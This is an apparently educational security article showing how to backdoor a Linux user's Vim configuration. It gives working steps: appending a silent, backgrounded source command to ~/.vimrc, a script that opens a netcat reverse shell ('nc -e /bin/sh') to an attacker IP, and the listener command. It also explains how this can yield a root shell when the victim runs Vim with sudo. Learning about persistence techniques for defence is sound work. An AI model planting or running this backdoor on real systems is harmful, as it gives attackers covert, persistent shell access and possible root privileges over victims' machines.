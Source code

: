 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the `.vimrc` file. This file, which is automatically loaded when Vim starts, accepts VIM-specific scripting commands that are usually used to enable users to tailor their editing environment to their preferences.

This interesting setup presents an opportunity for attackers. By manipulating the `.vimrc` file, one can execute unintended actions during a user's VIM session without the user's knowledge or permission, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment. To execute a command within the VIM environment, you need to precede any shell command with a colon and an exclamation mark. Execute the following command within VIM to get the user ID (or username):

```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Great, let's get back to the `.vimrc` file. We can inject any commands into the `.vimrc` file, and once the current user starts Vim, these commands are executed in the background. One particularly interesting command is the source command, used to execute commands from a script file in the current shell session.

We can illustrate this with an example scenario: suppose an attacker, using a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker wants to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the `.vimrc` file by appending the following line:

```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```

Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the `&` to execute the command in the background."

Now, the attacker need to populate the script `ncReverseSh.sh` with the payload:

```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the `-e` switch, specifying the program (`/bin/sh`) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:

```sh
nc -lnvp 7777
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:

```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute `/usr/bin/vim` on `/opt/whatever.conf` without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...


### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
